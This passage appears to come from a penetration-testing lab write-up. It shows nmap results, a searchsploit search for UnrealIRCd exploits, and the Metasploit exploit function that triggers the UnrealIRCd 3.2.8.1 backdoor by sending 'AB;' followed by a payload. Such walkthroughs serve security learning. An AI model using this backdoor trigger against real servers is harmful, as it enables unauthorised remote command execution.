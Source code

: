 ```
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-05-02 04:44:24
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May  2 04:45:22 2019 -- 1 IP address (1 host up) scanned in 67.97 seconds
```

### Looking For Exploits

As can be seen form the nmap output, we can see that the service running on port 6697 is UnrealIRC. We can use `searchsploit` to search for exploits:

```
# searchsploit UnrealIRC
----------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                             |  Path
                                                                                                           | (/usr/share/exploitdb/)
----------------------------------------------------------------------------------------------------------- ----------------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                                               | exploits/linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                                                    | exploits/windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                                             | exploits/linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                                                  | exploits/windows/dos/27407.pl
----------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

I will ignore the windows exploit and examine the exploits for linux systems by using `searchsploit -x` to examine the code: `searchsploit -x exploits/linux/remote/16922.rb`. Towards the bottom, I see this function:

```ruby
def exploit
                connect

                print_status("Connected to #{rhost}:#{rport}...")
                banner = sock.get_once(-1, 30)
                banner.to_s.split("\n").each do |line|
                        print_line("    #{line}")
                end

                print_status("Sending backdoor command...")
                sock.put("AB;" + payload.encoded + "\n")

                handler
                disconnect
        end
```

